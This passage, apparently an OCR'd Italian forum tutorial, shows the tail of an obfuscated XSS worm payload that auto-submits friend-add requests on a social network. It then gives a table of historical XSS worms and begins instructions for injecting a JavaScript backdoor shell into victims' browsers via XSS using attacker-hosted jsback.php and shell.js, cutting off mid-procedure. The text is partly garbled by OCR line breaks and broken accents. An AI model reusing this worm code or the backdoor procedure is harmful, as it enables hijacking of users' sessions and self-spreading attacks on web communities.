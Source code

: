 Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POS

T',paramsToString(AS))}function httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return

false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xml

http2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setReque

stHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return true}"></DIV>


Ora, senza stare a spiegare riga per riga possiamo capire che i w0rm xss sono pericolosi per

sistemi e community quali myspace,yahoo ecc..
Vi basti pensare che in tutto i w0rm si contano sulle dita:

DATA:           NOME W0RM        BERSAGLIO

01/11/2008      New Orkut Worm      Orkut
08/07/2008     JustinTV Worm      Justin TV
24/01/2008     Yamanner      Yahoo! Mail Service
24/01/2008     hi5 Worm      hi5
24/01/2008     Gaia Worm      Gaiaonline
24/01/2008     Orkut Worm      Orkut
24/01/2005     Samy Worm        Myspace

Non reputo ci sia molto altro da dire, per questo argomento non ci sono regole o tutorial,

ognuno dovrebbe riuscire a trovare una vulnerabilitÃ  che gli permetta di inserire codici

simili a questie comunque sia, non Ã¨ una cosa che personalmente mi interessa.





Code:
[+] JavaScript Shell -  XSS & Backdoor

Ora parliamo di una cosa m000lto c00l!! ;-)
Sfruttiamo una vulnerabilitÃ  XSS per inniettare una backdoor a discapito di un povero user

vittima.

Procedimento:
Grazie ad un apposito tool creato da Inj3ct-it crew possiamo fare qualcosa di molto piÃ¹

pericoloso che un semplice alert, anche questa Ã¨ una delle tecniche che le persone non

conoscono con le XSS e cosÃ¬ facendo, restando ingnoranti, e le sottovalutano.

Requisiti 2 files:

-JsBack.php (from Inj3ct-it)

-shell.js (from Inj3ct-it)

Come primo passo dobbiamo uplodare sul nostro sito i 2 files jsback.php & shell.js,
e modificare le impostazioni iniziali( password e username per accedere nel file jsback.php

mentre in shell.js dobbiamo settare l'url e altro(troverete istruzioni dettagliate

all'interno dello stesso)).
Adesso supponiamo di aver trovato un xss su un sito che ci permette di includere javascript
